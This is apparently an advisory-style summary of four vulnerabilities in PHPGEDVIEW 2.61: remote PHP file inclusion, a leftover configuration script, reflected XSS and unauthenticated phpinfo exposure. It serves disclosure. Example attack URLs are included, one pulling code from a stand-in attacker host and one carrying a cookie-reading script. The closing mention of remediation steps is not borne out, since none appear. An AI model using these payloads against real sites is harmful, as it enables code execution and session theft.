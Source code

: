 The provided content details multiple vulnerabilities in PHPGEDVIEW 2.61, including PHP code injection, insecure configuration, XSS, and information disclosure.

**1) PHP Code Injection**

*   **Root Cause:** The application uses a variable `$PGV_BASE_DIRECTORY` to include files, and this variable is controllable by the user via HTTP GET parameters. Specifically, the vulnerable files are `authentication_index.php`, `functions.php`, and `config_gedcom.php`.
*   **Weaknesses:** Unsanitized user input is used in a `require` statement.
*   **Impact:** Remote attackers can include arbitrary PHP code from a remote server, leading to arbitrary code execution on the target server.
*   **Attack Vector:** HTTP GET requests by providing a malicious URL to the `PGV_BASE_DIRECTORY` parameter (e.g. `http://target/phpgedview_folder/authentication_index.php?PGV_BASE_DIRECTORY=http://attacker/`).
*   **Attacker Capabilities:** The attacker needs a publicly accessible web server to host the malicious PHP code.

**2) Insecure Configuration**

*   **Root Cause:** The `editconfig.php` file, which is used for initial configuration, is not deleted after installation.
*   **Weaknesses:** Leaving the configuration script accessible after installation.
*   **Impact:** An attacker can re-run the configuration script, potentially gaining administrative access by changing the administrator password.
*  **Attack Vector:** Accessing `editconfig.php` via a web browser.
*   **Attacker Capabilities:** The attacker needs to know the location of `editconfig.php`.

**3) Cross-Site Scripting (XSS)**

*   **Root Cause:** The application does not properly sanitize user input in the `search.php` script when handling `firstname`, `lastname`, `place`, and `year` parameters, specifically when the `action` parameter is set to `soundex`.
*  **Weaknesses**: Unsanitized user input is reflected back in the HTML code.
*   **Impact:** An attacker can inject malicious JavaScript code into the web page, which will be executed in the context of the victim's browser, potentially leading to session hijacking or other malicious actions.
*  **Attack Vector:** HTTP GET request by providing a script in the vulnerable input parameter (e.g. `<http://localhost/phpgedview/search.php?action=soundex&firstname=>">&lt;script&gt;alert(document.cookie)&lt;/script&gt;`).
*   **Attacker Capabilities:** The attacker needs to trick a user into visiting a crafted URL.

**4) Information Disclosure**

*   **Root Cause:** The `admin.php` script allows access to `phpinfo()` output via the `action=phpinfo` parameter, even if the user is not authenticated.
*   **Weaknesses:** Improper access control to sensitive system information.
*   **Impact:** An attacker can gain access to potentially sensitive information about the server's configuration, potentially aiding in further attacks.
*  **Attack Vector:** Accessing `admin.php?action=phpinfo` via a web browser.
*   **Attacker Capabilities:** The attacker needs to know the location of the admin.php file

This content provides more detail than a typical CVE description, outlining specific vulnerabilities, attack vectors, and remediation steps.
